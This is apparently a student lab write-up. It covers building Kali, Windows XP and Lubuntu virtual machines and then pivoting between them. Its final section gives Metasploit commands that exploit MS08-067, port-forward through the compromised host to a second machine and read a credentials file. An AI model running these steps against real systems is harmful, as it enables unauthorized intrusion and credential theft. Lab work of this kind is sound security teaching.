




# Overview
This week our assignment was to have three VMs on a network (Alpha, Beta and Omega) and obtain access to Omega through Alpha and Omega.



# Setting up Kali VM
1. Go to https://www.kali.org/downloads/ and download the Kali Linux ISO (The download will take a while). Remember the path of where the file is located.
2. Once the download is finished, open up VMWare.
3. On the home screen, click on “Create a new virtual machine”
4. Select “Installer disc image file (ISO)” and enter the path where the Kali ISO was saved.
5. The Guest Operating System is Linux and the version is Ubuntu.
6. Name the VM something related to what you are using it for instead of just “Kali”. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 60 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!

# Setting up Windows XP VM - Alpha & Beta
1. Obtain a version of Windows XP - SP1 and a registration. I have a copy of an ISO from a class I took in high school and will be using it for this tutorial.
2. Open up VMWare.
3. On the home screen, click on “Create a new virtual machine”.
4. Select “Installer disc image file (ISO)” and enter the path where the Windows ISO was saved.
5. The Guest Operating System is Windows and the version is XP.
6. Name the VM something related to what you are using it for instead of just “Windows”. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 40 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!
10. Repeat for Beta

# Setting up Lubuntu - Omega
1. Go to https://lubuntu.me/downloads/ and download the Lubuntu ISO (The download will take a while). Remember the path of where the file is located.
2. Once the download is finished, open up VMWare.
3. On the home screen, click on “Create a new virtual machine”
4. Select “Installer disc image file (ISO)” and enter the path where the Lubuntu ISO was saved.
5. The Guest Operating System is Linux and the version is Ubuntu.
6. Name the VM something related to what you are using it for. Use "Omega" as the name for this assignment. This will help you disguise it between different VMs. In addition, save it to a path you will remember later.
7. Specify the disk capacity and how the virtual disk is stored. For this example, we are going to use of 32 GB and split the disc into multiple files.
8. Customize any hardware if you like, but we will not need to.
9. Click “Finish” and double-click on VM’s name to launch it!

10. Select your language of choice.
11. When you get to the home screen, press the down arrow and enter to select "Install Lubuntu".
12. Select your language prefernce and press "Continue".
13. On the next screen, check the box "Download updates while installing Lubuntu" and press "Continue".
14. For the installation type, select "Erase disk and install Lubuntu" and "Install Now".
  >Note: You will get a prompt if you want to make changes to the disk. Click "Continue" to make the changes.
15. Select your timezone and click "Continue".
16. Choose keyboard format of your choice and click "Continue".
17. Personal information:

  >a. Enter your name
  >b. Enter computer name
  >c. Enter username
  >d. Enter and confirm password
  >e. Press "Continue"
  
18. Wait for Lubuntu to finish installing!
  >Note: This will take a while.
19. Once installation is complete, reboot the VM and you will be able to login!

# Attacking
To get access to Omega, I am first attacking Alpha from my Kali VM to get access to Beta. To get into Alpha, I am using one of my favorite vulnerabilites, MS08-067. MS08-067 is a Remote Code Execution vulnerability on Windows XP machines.
1. Open Kali VM.
2. Open Metasploit by entering ```msfconsole```.
3. Type ```use exploit/windows/smb/ms08_067_netapi```.
4. Enter ```set RHOST 192.168.206.136```
5. Type ```run``` or ```exploit```.
6. Congrats! You have a shell! 
7. Enter the following command for port forwarding from your Kali VM to the Beta VM: ```portfwd add -l 445 -p 445 -r 192.168.206.140```
8. Type ```background``` in your shell.
9. Enter ```set RHOST 127.0.0.1```
10. Type ```run``` or ```exploit```.
11. Congrats! You have a shell now on Beta!


12. Type ```cat password.txt``` to read a file with credentials.
13. You now have the credentials to the Omega VM!


